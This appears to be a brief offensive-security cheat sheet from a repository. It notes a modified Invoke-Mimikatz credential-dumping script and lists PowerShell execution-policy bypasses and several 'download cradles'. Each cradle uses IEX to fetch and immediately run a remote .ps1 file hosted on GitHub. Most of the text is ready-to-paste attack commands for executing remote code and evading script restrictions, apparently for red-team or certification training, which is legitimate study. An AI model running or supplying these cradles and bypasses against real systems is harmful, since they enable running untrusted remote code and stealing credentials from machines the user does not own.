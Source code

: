 Invoke-Mimikatz has been modded to execute on recent Windows versions based on - https://github.com/mitre/caldera/issues/38#issuecomment-396055260

# Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

```IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content```



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
